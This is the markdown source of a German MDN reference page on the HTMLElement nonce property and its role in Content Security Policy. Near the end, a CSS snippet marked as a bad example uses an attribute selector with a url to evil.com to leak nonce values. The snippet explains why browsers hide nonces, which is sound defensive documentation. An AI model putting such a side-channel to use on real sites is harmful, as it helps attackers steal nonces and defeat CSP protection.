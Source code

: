 ```yaml
---
title: "HTMLElement: nonce-Eigenschaft"
short-title: nonce
slug: Web/API/HTMLElement/nonce
l10n:
  sourceCommit: 4d929bb0a021c7130d5a71a4bf505bcb8070378d
---
```


{{APIRef("HTML DOM")}}

Die **`nonce`**-Eigenschaft der [`HTMLElement`](/de/docs/Web/API/HTMLElement)-Schnittstelle gibt die einmal verwendete kryptografische Nummer zurück, die von der [Content Security Policy](/de/docs/Web/HTTP/Guides/CSP) verwendet wird, um zu bestimmen, ob ein bestimmter Abruf durchgeführt werden darf.

In späteren Implementierungen geben Elemente ihr `nonce`-Attribut nur für Skripte frei (und nicht für Seitenkanäle wie CSS-Attributselektoren).

## Beispiele

### Abrufen eines `nonce`-Wertes

In der Vergangenheit unterstützten nicht alle Browser das `nonce` IDL-Attribut, daher besteht ein Workaround darin, [`getAttribute`](/de/docs/Web/API/Element/getAttribute) als Fallback zu verwenden:

```js
let nonce = script["nonce"] || script.getAttribute("nonce");
```

Jedoch verbergen neuere Browserversionen `nonce`-Werte, die auf diese Weise abgerufen werden (es wird eine leere Zeichenkette zurückgegeben). Die IDL-Eigenschaft (`script['nonce']`) wird der einzige Weg sein, um Nonces abzurufen.

Das Verbergen von Nonces hilft, Angreifer daran zu hindern, Nonce-Daten über Mechanismen zu extrahieren, die Daten von Inhaltsattributen erfassen können, wie beispielsweise diesen CSS-Selektor:

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Spezifikationen

{{Specifications}}

## Browser-Kompatibilität

{{Compat}}

## Siehe auch

- [`nonce` globales Attribut](/de/docs/Web/HTML/Global_attributes/nonce)
- [Content Security Policy](/de/docs/Web/HTTP/Guides/CSP)
- CSP: {{CSP("script-src")}}
